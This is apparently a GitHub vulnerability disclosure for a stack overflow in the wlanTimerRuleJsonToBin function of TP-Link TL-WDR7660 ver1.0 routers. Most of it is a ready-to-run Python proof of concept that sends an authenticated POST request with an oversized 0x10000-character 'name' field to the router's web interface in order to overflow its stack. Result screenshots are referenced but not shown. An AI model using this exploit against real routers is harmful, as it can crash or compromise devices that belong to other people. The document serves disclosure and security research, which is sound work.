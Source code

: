 **A stack overflow vulnerability exists in TL-WDR7660**
**version:  TL-WDR7660 ver1.0**

The wlanTimerRuleJsonToBin function is not checked when handling a copy of the important parameter name.It can result in the stack to overflow

![image](image/1.png)

**Exploit a vulnerability in the wlanTimerRuleJsonToBin function by sending a carefully constructed HTTP request**
```
import requests
##You need to modify the cookie first
# Destination URL
url = "http://192.168.1.1/stok=U%2B%7D!TC%2BK6c)SHSupXt8E%5BcuX2k5*X2%5Dk/ds " #COOKIE需要对应捕获
# Request header
headers = {
    "Host": "192.168.1.1",
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/json; charset=UTF-8",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.1.1",
    "Referer": "http://192.168.1.1/"
}
# Request body - Vulnerability exploits json
data = {"time_switch":{"name":"a"*0x10000,"table":"time_switch","para":{"mon":"1","tue":"1","wed":"1","thu":"1","fri":"1","sat":"1","sun":"1","name":"a","enable":1,"start_time":"00%3A00","end_time":"01%3A00"}},"method":"add"}
# Send POST request
response = requests.post(url, headers=headers, json=data)
# Output response content
print(response.text)
```
**The following figure shows the result**

![image](image/2.png)
